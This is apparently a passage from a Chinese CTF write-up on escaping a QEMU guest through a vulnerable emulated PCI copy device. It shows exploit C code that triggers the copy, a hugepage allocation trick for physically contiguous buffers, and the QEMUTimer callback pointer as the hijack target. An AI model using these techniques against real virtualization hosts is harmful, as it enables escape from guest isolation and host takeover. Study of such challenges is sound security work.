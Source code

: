 ```c
        exp[i].cp_src=gva2gpa(buf);
        exp[i].cp_dst=gva2gpa(buf);
    }
    set_src(gva2gpa(exp)); set_cnt(0x11); set_cmd(1);

    // tigger
    set_cmd(0);
}
```

题目有一下两点需要注意

### 连续的物理内存页

在进行拷贝时，虽然用户可以申请一个大于0x1000在虚拟地址上连续的内存空间，但其未必是物理地址空间上连续的多个页。所以在qemu执行cpu_physical_memory_rw时，可能会将用户传来的物理地址后连续的其他页覆盖，不仅无法泄露信息，还可能会引发异常崩溃。所以当使用cpu_physical_memory_rw函数进行较长的内存拷贝时，一定要确保给出的空间在物理地址上连续。对此比较保险的办法就是想办法获得一大片的连续物理内存，找到办法可以申请linux大页，本题的qemu中，查看大页的大小为2M，按如下方式申请即可：

- [Linux申请大页内存(mmap)](https://cloud.tencent.com/developer/article/1055041)

```c
system("sysctl vm.nr_hugepages=30");
void * buf = mmap(0, 512 * 0x1000, PROT_READ | PROT_WRITE , MAP_SHARED | MAP_ANONYMOUS | 0x40000, -1, 0);
memset(buf,'a',0x2000);
```

### QEMUTimer结构体的利用

QEMUTimer是个好结构体：

```c
struct FastCPState
{
  PCIDevice_0 pdev;
  MemoryRegion_0 mmio;
  CP_state cp_state;
  uint8_t handling;
  uint32_t irq_status;
  char CP_buffer[4096];
  QEMUTimer cp_timer;
};

struct QEMUTimer
{
  int64_t expire_time;
  QEMUTimerList_0 *timer_list;

  //  cb(opaque)
  QEMUTimerCB *cb;  // func_ptr  
  void *opaque;     // param

  QEMUTimer *next;
  int attributes;
  int scale;
};
```
